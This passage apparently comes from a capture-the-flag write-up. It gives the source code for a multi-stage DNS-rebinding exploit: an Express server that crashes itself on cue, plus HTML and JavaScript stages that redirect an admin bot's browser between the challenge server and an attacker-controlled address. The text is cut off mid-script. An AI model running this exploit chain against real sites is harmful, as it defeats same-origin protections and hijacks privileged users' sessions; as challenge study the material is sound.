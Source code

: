 ```javascript

crasher.get('/username', (req, res) => {
    username=req.query.username
    res.end()
})

crasher.get('/moderator/logs', (req, res) => {
    res.render("../public/stage-3.ejs",{"username":username})
})

crasher.get('/bye', (req, res) => {
    console.log("Stage 3 Started, killing this process")
    process.exit(1)
})

crasher.listen(port, () => {
    console.log(`Crasher listening on port ${port}`)
})
```

Last but not least all the HTML files used as stages

```html
<html>
    <head>Stage 1 of the Exploit</head>
    <body>
        <p>
            The only thing that this exploit does is to open the second stage.
        </p>
        <br/>
        <p>
            We need a dedicated page in order to redirect this page to /login, to bypass
            the check performed by the bot.
        </p>
    </body>
    <script>
        var tab = open("/stage-two","_blank")
    </script>
</html>
```

```html
<html>
    <script>
        const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

        async function exploit(){
            /* 
            * This changes the location of the opener (which is stage-1) to the login page.
            * Actually the URL sends two DNS A-Record, one for the challenge server and the other one for the exploit server.
            * The admin will land on the challenge page, because Chrome will prefer the local address over the remote one. 
            * Maybe since there are some DNS caching magic happening we can try to saturate the cache with random fetch in order to make the exploit more reliable.
            * The request to /moderator/logs will make the server crash. The browser will then perform the request to the other address as fallback.
            * On the other address there will be the third stage.
            */
            opener.location = "http://local.blig.one:3000/login"
            for (let i = 0; i < 60; i++) {
                await sleep(100);
                fetch('/nonexisting'+i)
	    }
            opener.location = "http://local.blig.one:3000/moderator/logs"
```